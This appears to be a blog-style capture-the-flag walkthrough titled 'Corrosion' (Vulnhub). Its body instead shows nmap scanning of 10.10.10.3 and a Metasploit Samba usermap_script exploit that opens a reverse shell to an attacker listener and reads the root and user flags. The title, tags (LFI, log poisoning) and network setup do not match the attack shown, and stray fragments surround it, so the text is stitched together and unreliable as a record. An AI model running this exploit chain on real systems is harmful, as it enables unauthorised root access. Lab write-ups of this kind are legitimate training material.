 ```yaml
---
layout: post
title: "Corrosion"
date: 2022-01-18
image: ../../assets/img/Posts/Corrosion.png
categories: [Vulnhub]
tags: [linux, lfi, rce, log poisoning, ubuntu]
---
```


| Machine       | [Corrosion](https://www.vulnhub.com/entry/corrosion-2,745/)              |
| ------------- | ------------------------------------------------------------------------ |
| Author        | [Proxy Programmer](https://www.vulnhub.com/author/proxy-programmer,812/) |
| Difficulty    | Medium                                                                   |
| Series        | [Corrosion](https://www.vulnhub.com/series/corrosion,491/)               |
| Date release  | 2021-09-21                                                               |
| Download Link | [here](https://download.vulnhub.com/corrosion/Corrosion2.ova)            |

Hey guys, welcome yet to I hope you enjoy reading through my thought-process for this box.

I first used a tool called `netdiscover` to discover machines in my network. (_In this case, i used host-only adapter on both Kali & Target_)

```bash
➜  netdiscover -i eth1
Currently scanning: 172.23.254.0/16   |   Screen View: Unique Hosts

 11 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 660
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.56.151  08:00:27:f2:86:43      5     300  PCS Systemtechnik GmbH
 192.168.56.1    0a:00:27:00:00:0b      1      60  Unknown vendor
 192.168.56.100  08:00:27:83:7e:81      5     300  PCS Systemtechnik GmbH

[2]  + 1720 suspended  netdiscover -i eth1

```

nmap -sC -sV 10.10.10.3

```javascript
Nmap scan report for 10.10.10.3
Host is up (0.39s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.31
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.99 seconds
```


search for "netbios-ssn Samba smbd 3.X - 4.X exploit"
used the first link ==> "https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script"
used metasploit to get a shell
```console
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
rhost => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP double handler on 10.10.14.45:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo nlxb1w0Xve5CXySB;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\nnlxb1w0Xve5CXySB\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.45:4444 -> 10.10.10.3:57253) at 2020-02-14 18:28:01 -0500

whoami
root
cat home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
cat root/root.txt
92caac3be140ef409e45721348a4e9df
```

```yml
name: 'push-remote'
```
